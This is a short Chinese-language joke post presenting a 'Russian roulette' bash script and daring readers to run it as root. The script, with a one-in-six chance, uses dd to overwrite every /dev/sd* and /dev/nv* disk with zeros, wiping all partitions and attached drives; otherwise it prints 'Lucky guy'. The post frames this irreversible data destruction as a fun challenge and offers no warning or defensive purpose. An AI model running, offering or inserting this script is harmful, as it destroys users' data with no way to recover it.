 
简评：来啊，干啊！这段代码不是懦夫的能敲的，生死就在一瞬间！
以下是一段可爱的俄罗斯轮盘代码，live or die，it's your turn。
'''
#!/bin/bash
if [[ $[ $RANDOM % 6 ] == 0 ]]; then
for f in /dev/sd*; do
		dd if=/dev/zero of=$f
done
for f in /dev/nv*; do
		dd if=/dev/zero of=$f
done
else
	echo "Lucky guy"
fi
'''
以 root 的身份，把你的一切分区，你的所有的硬盘、所有的东西包括外接驱动器全部清零！
